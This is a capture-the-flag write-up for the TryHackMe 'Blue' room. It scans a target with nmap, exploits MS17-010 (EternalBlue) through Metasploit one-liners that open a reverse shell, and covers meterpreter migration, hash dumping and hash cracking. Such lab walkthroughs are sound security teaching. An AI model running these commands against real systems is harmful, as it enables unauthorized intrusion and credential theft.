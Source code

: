 ```yaml
---
title: 'TryHackMe - Blue'
description: "Vulnerability scanning using nmap, exploitation using metasploit. Examples of creating a reverse TCP shell, upgrading the shell, process migration, hash cracking, and search to find flags."
author: 'Tim Sonner'
date: '2023-06-29'
published: true
---
```


# THM Eternal Blue  

## Recon  

 ### // Set a terminal environmental variable for target IP address  

```
export IP=<target-ip-address> 
```

 ### // Run nmap vulnerability scan   

```  
nmap -sV -vv --script=vuln $IP  
```  

 ### // Example  

![](/thm-blue/thm-blue-nmap-command.png)    

 ### // Results  

![](/thm-blue/thm-blue-nmap-results.png)

> Host is vulnerable to Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)  

https://www.exploit-db.com/exploits/41891  

## Exploit  

 ### // Run msfconsole and perform reverse tcp shell exploit   
```  
msfconsole -x "use exploit/windows/smb/ms17_010_eternalblue;set payload windows/x64/shell/reverse_tcp;setg RHOSTS $IP;setg LHOST tun0;run"  
```  

> We set the RHOSTS, LHOST, and payload option for the script (RHOSTS and LHOST are set globally)  

 ### // Metasploit go brrrr...  

 ![](/thm-blue/thm-blue-msfc-reverse-tcp-shell-command.png)  

 > Options have been set and exploit is running  

  // Results  

  ![](/thm-blue/thm-blue-eternal-blue-exploit-success.png)  

  > Exploit initially failed, now we have a basic shell  

 ### // Backgrounding the shell example    

     background  

> Ctrl-z does the same thing  

 ![](/thm-blue/thm-blue-background-example.png)

 ## Post-Exploit > Upgrade the reverse TCP shell to a meterpreter shell  

 ### // Search for the command   
```
search upgrade shell   
```  

 ![](/thm-blue/thm-blue-search-upgrade-shell-1.png)  

 ### // Select the script for use  

```  
use shell_to_meterpreter  
```
> Alternative: "use 4" (4th result in searches)

 ![](/thm-blue/thm-blue-run-upgrade-shell.png)  

 ### // Set options for shell_to_meterpreter - The script needs the session ID of our reverse TCP shell  

 ![](/thm-blue/thm-upgrade-shell-options.png)  

 > Example of setting options and using "sessions" to display sessions  

 ### // Run the script  

 > The script ran, but we don't have an upgraded shell...

 ### // Hmmm. Thats not working...  
 For some reason, the script isn't upgrading our shell. No worries, a meterpreter shell is the default when a payload isn't set for the eternal blue exploit.

 ### // Let's try again  
```  
msfconsole -x "use exploit/windows/smb/ms17_010_eternalblue;set RHOSTS $IP;set LHOST tun0;run"  
```  
 > This time we omit the "set payload windows/x64/shell/reverse_tcp" option. A meterpreter shell will be spun up by default.  

 ![](/thm-blue/thm-blue-meterpreter-default.png)  

 ### Session has started with default meterpreter shell  

 ![](../thm-blue-meterpreter-session-started.png)

 ### List the current processes running on the target  

 ![](/thm-blue/thm-blue-meterpreter-ps.png)  

 ### Get process ID of current meterpreter shell

 ![](/thm-blue/thm-blue-meterpreter-getpid.png)  

 ### Migrate to another process  

 ![](/thm-blue/thm-blue-meterpreter-migrate.png)  

 ### Dump the hashes  

 ![](/thm-blue/thm-blue-meterpreter-hashdump.png)  

 ### Quick and dirty Crackstation  

 ![](/thm-blue/thm-blue-crackstation.png)  

 ### Quick and dirty find flags  

 ![](/thm-blue/thm-blue-find-flags.png)  












